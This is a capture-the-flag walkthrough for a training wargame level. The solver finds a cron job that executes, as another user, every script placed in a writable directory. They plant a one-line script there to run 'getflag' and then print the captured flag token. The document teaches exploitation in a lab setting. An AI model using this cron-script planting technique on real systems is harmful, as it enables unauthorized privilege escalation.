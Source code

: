 # level05 solve

After a few minutes we receive a message

```
> You have new mail in /var/mail/level05
```

Openning the file we got an bash command

```
$ cat level05
> */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

But some part was weird, so we decide to learn on the web what could be appends running that command.
After some research, we understood that was a <a href="https://cron-job.org/en/">cronjob</a> (search <a href="https://book.cakephp.org/2/fr/console-and-shells/cron-jobs.html">1</a>, <a href="https://www.thegeekstuff.com/2011/07/cron-every-5-minutes/">2</a>)

So with being informed, we decide to see what the cron script does

```
$ cat /usr/sbin/openarenaserver
> #!/bin/sh
>
> for i in /opt/openarenaserver/* ; do
>         (ulimit -t 5; bash -x "$i")
>         rm -f "$i"
> done
```

Because it's a cron, we know that will be a loop on all scripts in the folder, running and be deleted, and that every 2 minutes.

With that knowledge, we can create a script to get the password

Ok let's try that

```
$ echo "getflag > /tmp/flag" > /opt/openarenaserver/file
```

Waiting some time later (2min max)

```
$ cat /tmp/flag
> viuaaale9huek52boumoomioc
```

We got it!

> <a href="../flag">flag</a> - <a href="../../level04">previous level</a> - <a href="../../level06">next level</a>
